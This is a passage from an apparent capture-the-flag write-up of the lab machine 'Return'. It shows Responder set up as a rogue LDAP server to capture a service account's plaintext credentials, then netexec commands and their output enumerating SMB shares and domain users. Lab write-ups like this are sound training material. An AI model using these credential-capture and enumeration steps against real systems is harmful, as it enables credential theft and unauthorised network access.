 # Clear Text Credentials 

Using the command ```sudo responder -I tun0 -dPv```, we launch ```Responder```, making sure the ```LDAP```option is turned ```ON```, because the service is using port ```389```.
The LDAP option should be on by default, if not, the option can be enabled by changing the config file, using the command ```sudo gedit /etc/responder/Responder.conf```, changing LDAP from OFF to ON.
After setting up ```Responder``` to act as a malicious LDAP server, we can send the request once again using Caido or Burp Suite, and will receive the credentials in plaintext.
![alt text](https://github.com/Kyd0s/Kyd0s.github.io/blob/main/assets/images/Return(HTB)/Return4.png?raw=true)


# Users and Shares Enumeration

Since we now have valid credentials, we can enumerate ```SMB``` shares and ```users```, using ```netexec```.

```bash
netexec smb return.local -u svc-printer -p '**********' --shares
SMB         10.10.11.108    445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:********** 
SMB         10.10.11.108    445    PRINTER          [*] Enumerated shares
SMB         10.10.11.108    445    PRINTER          Share           Permissions     Remark
SMB         10.10.11.108    445    PRINTER          -----           -----------     ------
SMB         10.10.11.108    445    PRINTER          ADMIN$          READ            Remote Admin
SMB         10.10.11.108    445    PRINTER          C$              READ,WRITE      Default share
SMB         10.10.11.108    445    PRINTER          IPC$            READ            Remote IPC
SMB         10.10.11.108    445    PRINTER          NETLOGON        READ            Logon server share 
SMB         10.10.11.108    445    PRINTER          SYSVOL          READ            Logon server share
```

Nothing interesting with the shares enumeration, but we have ```read/write``` access to ```C$``` with the user ```svc-printer```


```bash
netexec smb return.local -u svc-printer -p '**********' --users 
SMB         10.10.11.108    445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:********** 
SMB         10.10.11.108    445    PRINTER          -Username-                    -Last PW Set-       -BadPW- -Description-           
SMB         10.10.11.108    445    PRINTER          Administrator                 2021-07-16 15:03:22 0       Built-in account for administering the computer/domain                                                                                                        
SMB         10.10.11.108    445    PRINTER          Guest                         <never>             0       Built-in account for guest access to the computer/domain                                                                                                      
SMB         10.10.11.108    445    PRINTER          krbtgt                        2021-05-20 13:26:54 0       Key Distribution Center Service Account                                                                                                                       
SMB         10.10.11.108    445    PRINTER          svc-printer                   2021-05-26 08:15:13 0       Service Account for Printer                                                                                                                                   
SMB         10.10.11.108    445    PRINTER          [*] Enumerated 4 local users: RETURN
```